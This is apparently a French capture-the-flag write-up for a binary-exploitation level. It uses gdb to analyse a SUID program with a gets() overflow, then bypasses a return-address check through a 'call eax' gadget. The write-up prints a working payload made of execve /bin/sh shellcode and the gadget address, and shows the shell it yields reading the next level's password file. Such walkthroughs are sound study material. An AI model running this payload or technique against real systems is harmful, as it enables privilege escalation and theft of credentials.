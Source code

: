 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
  [...]
  ```
    - On a un binaire appartenant a level3 dans le home avec les droits SUID.

- `./level2`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level2`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484d4  p
      0x0804853f  main
    [...]
    ```
    - on trouve une fonction p en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x0804853f <+0>:	push   ebp
       0x08048540 <+1>:	mov    ebp,esp
       0x08048542 <+3>:	and    esp,0xfffffff0
       0x08048545 <+6>:	call   0x80484d4 <p>
       0x0804854a <+11>:	leave
       0x0804854b <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (aligne la stack)<br/><br/>
    - <+6>
      - Call p()<br/><br/>
    - <+11> ... <+12>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait qu'appeler la fonction p()

  - `disas p`
    ```asm
    Dump of assembler code for function p:
       0x080484d4 <+0>:	push   ebp
       0x080484d5 <+1>:	mov    ebp,esp
       0x080484d7 <+3>:	sub    esp,0x68
       0x080484da <+6>:	mov    eax,ds:0x8049860
       0x080484df <+11>:	mov    DWORD PTR [esp],eax
       0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
       0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
       0x080484ea <+22>:	mov    DWORD PTR [esp],eax
       0x080484ed <+25>:	call   0x80483c0 <gets@plt>
       0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
       0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
       0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
       0x080484fb <+39>:	and    eax,0xb0000000
       0x08048500 <+44>:	cmp    eax,0xb0000000
       0x08048505 <+49>:	jne    0x8048527 <p+83>
       0x08048507 <+51>:	mov    eax,0x8048620
       0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
       0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
       0x08048513 <+63>:	mov    DWORD PTR [esp],eax
       0x08048516 <+66>:	call   0x80483a0 <printf@plt>
       0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
       0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
       0x08048527 <+83>:	lea    eax,[ebp-0x4c]
       0x0804852a <+86>:	mov    DWORD PTR [esp],eax
       0x0804852d <+89>:	call   0x80483f0 <puts@plt>
       0x08048532 <+94>:	lea    eax,[ebp-0x4c]
       0x08048535 <+97>:	mov    DWORD PTR [esp],eax
       0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
       0x0804853d <+105>:	leave
       0x0804853e <+106>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 104 octets pour la stack)<br/><br/>
    - <+6> ... <+14>
      - Stocke la valeur du registre data segment 0x80497c0 dans eax
        - `x/s 0x8049860`
          - `0x8049860 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdout) sur la stack (à esp)
      - Call fflush() avec l'argument stocké sur la stack<br/><br/>
    - <+19> ... <+25>
      - Fait pointer eax sur ebp - 76
      - Stocke eax (l'adresse de ebp - 76) sur la stack (à esp)
      - Call gets() avec l'argument stocké sur la stack<br/><br/>
    - <+30> ... <+49>
      - Stocke l'adresse ebp + 4 (l'eip) dans eax
      - Stocke eax (l'adresse de l'eip) dans ebp - 12
      - Applique un filtre binaire (0xb0000000) à la valeur de eax
      - Compare la nouvelle valeur de eax avec 0xb0000000
      - Jump à <p +83> si la comparaison n'est pas vraie<br/><br/>
    - <+51> ... <+66>
      - Stocke la valeur de 0x8048620 dans eax
        - `x/s 0x8048620`
          - `0x8048620:	 "(%p)\n"`
      - Stocke la valeur à ebp - 12 (l'adresse de l'eip) dans edx
      - Stocke la valeur de edx sur la stack (à esp + 4)
      - Stocke la valeur de eax ("(%p)\n") sur la stack (à esp)
      - Call printf() avec les arguments stockés sur la stack<br/><br/>
    - <+71> ... <+78>
      - Stocke 0x1 (1) sur la stack (à esp)
      - Call exit() avec l'argument stocké sur la stack<br/><br/>
    - <+83> ... <+89> (Jump conditionnel depuis <+49>)
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) sur la stack (à esp)
      - Call puts() avec l'argument stocké sur la stack<br/><br/>
    - <+94> ... <+100>
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) sur la stack (à esp)
      - Call strdup() avec l'argument stocké sur la stack<br/><br/>
    - <+105> ... <+106>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

La fonction p() fait donc:
  - fflush(stdout) => clean stdout
  - gets(ebp - 76) => attend un input
  - vérifie avec un filtre binaire et un cmp si l'eip commence par 0xb...
    - si c'est le cas:
      - printf("%p\n", eip) => affiche la valeur du pointeur sur eip
      - exit(1) => quitte la fonction
    - sinon:
      - puts(ebp - 76) => affiche le retour du gets
      - strdup(ebp - 76) => copie le retour du gets dans un malloc et le stocke dans eax

## Exploit

On sait qu'il y a un buffer overflow possible sur le gets, cependant le check au niveau de <p+44> nous empêche de réécrire l'EIP pour le faire pointer sur la stack.

Après quelques recherches dans les fonctions importées par le programme, on trouve un call à eax dans frame_dummy:

- `gdb level2`
  - `info function`
    ```asm
    [...]
      0x080484b0  frame_dummy
    [...]
    ``` 
  - `disas frame_dummy`
    ```asm
    [...]
      0x080484cf <+31>:	call   eax
    [...]
    ```
Puisque le strdup() stocke son output dans eax, en théorie on peut écrire un exploit dans l'input du gets() et utiliser l'adresse du call eax découvert dans frame_dummy (`0x080484cf`) pour réécrire l'EIP et faire exécuter notre exploit depuis eax !

On va se servir d'un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) pour trouver l'offset plus rapidement:

- `echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/exploit`
- `gdb level2`
  - `run < /tmp/exploit`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    ```
    - on rentre 0x37634136 dans le générateur de pattern et il nous donne un offset de 80.

Nous créons donc un payload à l'aide du shellcode trouvé dans le lien suivant : https://www.exploit-db.com/exploits/41757

On a 80 octets avant d'écraser l'EIP, donc on écrit les 21 octets de notre shellcode, 59 octets random (80 - 21) et notre adresse en little endian:
  - `python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\xcf\x84\x04\x08"' > /tmp/exploit`

Enfin nous lançons le programme avec le payload malicieux comme au level précédent:
- `cat /tmp/exploit - | ./level2`
  ```
     j
  X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAτ

  ```
  - `whoami`
    ```
    level3
    ```
  - `cat /home/user/level3/.pass`
    ```
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```
